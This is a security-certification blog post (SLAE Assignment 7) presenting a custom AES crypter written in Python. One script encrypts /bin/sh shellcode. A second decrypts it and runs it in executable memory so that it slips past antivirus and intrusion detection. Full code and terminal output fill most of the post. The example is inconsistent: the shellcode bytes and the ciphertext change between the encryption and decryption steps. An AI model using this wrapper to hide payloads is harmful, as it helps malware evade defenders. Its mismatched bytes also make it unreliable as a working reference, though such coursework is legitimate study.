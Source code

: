 ```yaml
---
title:  "SLAE x86 Assignment 7: Custom Crypter"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
#categories:
#  - exploit dev
classes: wide
#tags:
#  - exploit dev
#  - slae
---
```


### Custom Crypter
------

* Create a custom crypter
* Use any encryption schema
* Use any programming language

#### Concept 
-----

A crypter is defined as a tool that has the ability to encrypt, obfuscate, and manipulate malicious code making it undetectable to common AV and IDS systems. 

Similar to the custom Encoder created in an earlier assignment, the concept is developed further with the use of an encryption scheme, leading to a higher success rate of evasion by decrypting the malicious code at run-time and executing on the target host.

The AES (Advanced Encryption Standard) cipher  algorithm also known as Rijndael, will be used to illustrate the concept of a custom Encoder:

* Symmetric-key algorithm (same key used to encrypt and decrypt the data)
* 3 different key sizes - 128/192/256 bits
* 128-bit block sizes (data is divided into 4x4 arrays, each containing 16 bytes)
* High-speed performance and low RAM (memory) utilization when encrypting/decrypting 

![AES](/assets/images/AES.jpg) 

2 steps used to demonstrate the Crypter process:

* Encryption
* Decryption (along with execution of the shellcode)

#### Encryption
--------

The execve-stack shellcode from the course material will be used as a reference for the shellcode, which spawns a <code class="language-plaintext highlighter-rouge">/bin/sh</code> shell on the local host:

```bash
"\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

A python script will be used as a Crypter wrapper to implement the AES encryption/decryption, referenced from Code Koala [http://www.codekoala.com/posts/aes-encryption-python-using-pycrypto] [encryption-codekoala].

Note in this instance a static 128-bit key <code class="language-plaintext highlighter-rouge">KeepMeSecureEKEY</code> is hardcoded into the script for the sake of the POC to illustrate the concept, best practice recommends a randomly generated key dynamically generated (avoid hardcoding/storing within the script):

```python
#!/usr/bin/python

# Filename: AES_encryption.py
# Author: h3ll0clar1c3
# Purpose: Wrapper script to generate encrypted shellcode from the original shellcode
# Usage: python AES_encryption.py 

from Crypto.Cipher import AES
import sys
import os
import base64

def aes128(shc):

#block size = 16 byte arrays
 BLOCK_SIZE = 16 
 PADDING = '{'
 pad = lambda s: s + (BLOCK_SIZE - len(s) % BLOCK_SIZE) * PADDING
 EncodeAES = lambda c, s: base64.b64encode(c.encrypt(pad(s)))

#static encryption/decryption key - must be 16/24/32 bytes long
 secret = 'KeepMeSecureEKEY' 
 cipher = AES.new(secret)
 encoded = EncodeAES(cipher, shc)
 print 'Encrypted shellcode using AES 128-bit key + Base64 encoded:\n\n', encoded

#execve-stack shellcode to spawn /bin/sh shell
shellcode = b"\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x6c\\x73\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"

EKEY = aes128 (shellcode)
```

As a POC, the AES encryption wrapper script is executed resulting in the original shellcode being encrypted and base-64 encoded:

```bash
osboxes@osboxes:~/Downloads/SLAE$ python AES_encryption.py 
Encrypted shellcode using AES 128-bit key + Base64 encoded:

5CJtU2PsI+erEYEb0l/3xle2srUXUxlJ8Zcv0RUKDAzn8dvPUM9H04Q8FCEK06HT7VlgveJoGWQDjXszmOjUkP0OvPf0OrefgZ/eRqrryx95REGDTPhOzCbPEY0el9s4zIV4N0lvsnFNy/o/aCRGOg==
```

#### Decryption (Along with execution of the shellcode)
--------------

For the decryption portion, the encrypted shellcode is hardcoded within the python wrapper script along with the AES key:

```python
#!/usr/bin/python

# Filename: AES_decryption.py
# Author: h3ll0clar1c3
# Purpose: Wrapper script to decrypt encrypted shellcode and execute original shellcode
# Usage: python AES_decryption.py 

from Crypto.Cipher import AES
from ctypes import CDLL, c_char_p, c_void_p, memmove, cast, CFUNCTYPE
import base64
import os

#block size = 16 byte arrays
BLOCK_SIZE = 16
PADDING = '{'
pad = lambda s: s + (BLOCK_SIZE - len(s) % BLOCK_SIZE) * PADDING
DecodeAES = lambda c, e: c.decrypt(base64.b64decode(e)).rstrip(PADDING)

#static encryption/decryption key - must be 16/24/32 bytes long
secret = 'KeepMeSecureEKEY' 
cipher = AES.new(secret)

#encrypted shellcode from AES_encryption.py
encoded = '5CJtU2PsI+erEYEb0l/3xiQvT0P0eeArByo4NEbKDb3n8dvPUM9H04Q8FCEK06HT7VlgveJoGWQDjXszmOjUkP0OvPf0OrefgZ/eRqrryx95REGDTPhOzCbPEY0el9s4zIV4N0lvsnFNy/o/aCRGOg=='
decoded = DecodeAES(cipher, encoded)
print 'Decrypted shellcode (AES 128-bit key + Base64 decoded):\n\n', decoded

#execute execve-stack shellcode to spawn /bin/sh shell
libc = CDLL('libc.so.6')
shellcode = decoded.replace('\\x', '').decode('hex')
sc = c_char_p(shellcode)
size = len(shellcode)
print '\nShellcode length: %d bytes\n' % len(shellcode)
print 'Here comes your shell ...'
addr = c_void_p(libc.valloc(size))
memmove(addr, sc, size)
libc.mprotect(addr, size, 0x7)
run = cast(addr, CFUNCTYPE(c_void_p))
run()
```

The final POC, the encrypted shellcode hardcoded within the python wrapper script is decoded with the AES key, along with a base-64 decode to extract the original <code class="language-plaintext highlighter-rouge">/bin/sh</code> shellcode and executed at run-time spawing a shell on the local host:

```bash
osboxes@osboxes:~/Downloads/SLAE$ python AES_decryption.py 
Decrypted shellcode (AES 128-bit key + Base64 decoded):

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

Shellcode length: 25 bytes

Here comes your shell ...
$ id
uid=1000(osboxes) gid=1000(osboxes) groups=1000(osboxes),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ 
```

##### SLAE Disclaimer ####
---------

This blog post has been created for completing the requirements of the [SLAE certification] [slae-link].

Student ID: PA-14936

GitHub Repo: [Code][github-code]

[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment7
[encryption-codekoala]: http://www.codekoala.com/posts/aes-encryption-python-using-pycrypto
